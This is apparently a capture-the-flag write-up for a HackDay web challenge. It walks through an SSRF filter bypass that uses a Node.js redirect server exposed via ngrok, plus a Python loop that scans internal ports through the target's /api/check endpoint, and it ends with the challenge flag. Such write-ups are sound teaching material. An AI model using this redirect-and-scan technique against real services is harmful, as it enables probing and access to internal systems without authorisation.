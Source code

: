 # Super Website Verificator 3000

> Our team of brilliant engineers has developed a highly sophisticated website designed to perform check-ups on other sites. It can even uncover hidden information, possibly concealed by some clever tricksters. Take a look and see if you can find anything!
> 
> The problem with the 169.254 subnet was fixed, it was a security issue with the infrastructure.
> 
> `http://challenges.hackday.fr:43244`

Upon opening the website, we will see the following webpage with an input element.

![Homepage](img1.png)

After inserting a URL as input and enabling the checkbox, we will receive the response body.

![Checking URL](img2.png)

This looks like **Server-side request forgery (SSRF)**. Firstly, I tried to use `http://localhost` as input to check if application would process it, but I got the error `Error: you must provide a valid domain name`.

![Localhost Error](img3.png)

Secondly, I used `http://127.0.0.1` and it returned the same error. Sending `https://example.com@localhost` gave me `Error: you must provide a valid domain name`. So I decided to check the HTML through dev tools. I found out that there is a `<script>` element sending a POST request to `/api/check`. There were no checks returning errors, which means the validation was performed server-side, making editing the response through [Burp Suite](https://portswigger.net/burp) pointless.

![Dev Tools](img4.png)

So I decided to create a local server and expose it with [ngrok](https://ngrok.com/). The local server listens for requests and redirects clients to `http://127.0.0.1:80`.

```js
const http = require("http");

http.createServer((req, res) => {
    console.log(`Request Details: Method=${req.method}, URL=${req.url}`);
    res.writeHead(302, { Location: "http://127.0.0.1:80" });
    res.end();
  }).listen(8080, () => console.log("Node.js web server at 8080 is logging client info and redirecting..."));
```

The following script sets up a Node.js server to redirect requests to a specific local port. Then I opened a server to public with `ngrok http 8080` and received my website's URL. After that I've tried to use it in the task.

![Ngrok URL Testing](img5.png)

This worked. Afterward, I decided to use [DirBuster](https://www.kali.org/tools/dirbuster/) to find secret directories and files, but it didn't yield any results. Then I decided to check different ports on the internal server. Firstly, I changed the [server script](server.js).

```js
const http = require('http');

http.createServer((req, res) => {

    console.log(`Request Details: Method=${req.method}, URL=${req.url}`);

    port = req.url.split('=')[1];
    console.log(`Port: ${port}`);

    res.writeHead(302, { 'Location': 'http://127.0.0.1:' + port });
    res.end();
}).listen(8080, () => console.log('Node.js web server at 8080 is logging client info and redirecting...'));
```

Secondly, I created a [Python script](script.py) to send the ngrok URL with ports from 1 to 1000 to the `/api/check` route.

```python
import requests

url = "http://challenges.hackday.fr:43244/api/check"
# Replace <REDACTED> with your URL
test_url = "https://<REDACTED>.ngrok-free.app/?port="

for i in range(1, 1000):
    # Replace <REDACTED> with your URL
    test_url = f"https://<REDACTED>.ngrok-free.app/?port={i}"
    response = requests.post(url, data={"url": test_url, "showBody": "on"})
    print(f"Testing port {i}:\n{response.text}\n")
```

After some time, the script sent a request to port 600, which returned a flag.

![Console Screenshot](img6.png)

`HACKDAY{Give_ME_YOuR_L0OPb@CK}`
